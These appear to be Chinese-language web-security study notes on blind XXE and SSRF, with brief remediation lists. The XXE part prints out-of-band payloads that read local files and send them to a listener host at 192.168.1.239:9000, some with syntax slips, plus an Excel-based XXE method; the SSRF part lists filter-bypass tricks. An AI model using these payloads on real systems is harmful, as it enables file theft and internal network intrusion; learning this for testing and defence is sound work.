无回显的XXE
无回显的XXE可以使用外带数据通道提取数据即带外XML外部实体（OOB-XXE）
漏洞发现
寻找接受xml作为输入内容的端点
修改http请求方法，Content-Type头部字段等方法，查看响应，发送内容是否被解析。解析了则可能有XXE漏洞
如果站点解析xml,尝试引用实体和DTD
如果可以引用外部实体则存在XXE漏洞
XXE的利用
有回显的
本地文件读取
file:///
若为php程序，则php://filter
当读取的文件包含了<或&,使用CDATA,利用外部参数实体
无回显的
外带数据，把数据发送到远程服务器上
利用思路：
通过外部DTD的方式将内部参实体的内容与外部DTD声明实体的内拼接起来
利用payload来从目标主机读取到内容后，将文件内容作为url的一部分来请求本地的监听窗口
XML解析器不会解析同级参数实体
<?xml version="1.0"?>       
    <!DOCTYPE message[
        <!ENTITY % files SYSTEM "file:///c:/windows/win.ini">
        <!ENTITY % send SYSTEM "http://192.168.1.239:9000/?a=%files;" > %files不会被解析
        %send;
    ]>
</message>

<?xml version="1.0"> 	//不同级，但不符合参数实体的引用规则
    <!DOCTYPE message[
        <!ENTITY % files SYSTEM "file:///c:windows/win.ini">
        <!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'http://192.168.1.239:9000/?%files;'>"
        %start;
        %files
    ]>
</message>

进行外部引用
<?xml version="1.0"> 	
    <!DOCTYPE message[
        <!ENTITY files SYSTEM "http://192.168.1.239:9000/demo.dtd">
       &file;
    ]>
</message>


在demo.dtd文件中
 <!ENTITY % files SYSTEM "file:///d:/1.txt">
 <!ENTITY % int  SYSTEM "<!ENTITY &#37; send SYSTEM 'http://192.168.1.239:9000/%files;'>">



通过excel上传xxe
将excel后缀名改为zip后添加引用外部实体访问路径。再将文件后缀修改回来。监听本地的端口即可

修复：
过滤用户输入的xml数据
禁止引用外部实体即可                                                                           




SSRF
服务端请求伪造攻击
攻击者构造攻击链接传给服务端执行造成的漏洞，一般用来外网探测和内网攻击服务
从其它服务器
攻击者传入一个未经验证的URL，后端代码直接请求就会造成SSRF
场景：
从web功能点寻找
通过URL分享网页内容
在线翻译
通过URL加载图片
图片、文章的收藏功能
从url的关键字

漏洞利用
dict协议运用
字典服务器协议，让客户端使用过程中能够访问更多的字典源。
利用dict协议探测端口
file协议获取文件系统中的内容
gopher协议万能协议
php中会导致ssrf漏洞的产生的函数
curl_exec()
file_get_contents()
fsockopen()


无回显的SSRF
使用BP的collaboter模块
dnslog.cn

SSRF漏洞利用限制绕过
利用解析URL：
某些情况下，后端程序可能会对访问的URL进行解析，对解析的host地址进行过滤，这时可能会出现对URL参数解析不当，导致绕过过滤
访问https://baidu.com@10.10.10.10与访问10.10.10.10的内容一致
 IP地址转换成进制
8进制
16进制
10进制整数
16进制整数
添加端口绕过正则匹配
192.168.1.1:80
利用xip.io、xip.name绕过
短地址绕过
利用句号（将点换成句号）

防御：
过滤返回信息、验证远程服务器对响应的请求
同意错误信息
限制请求端口为常用的端口
设置黑名单内网ip
禁用不需要的协议、仅允许http和https请求  

反序列化（unserialize）

  

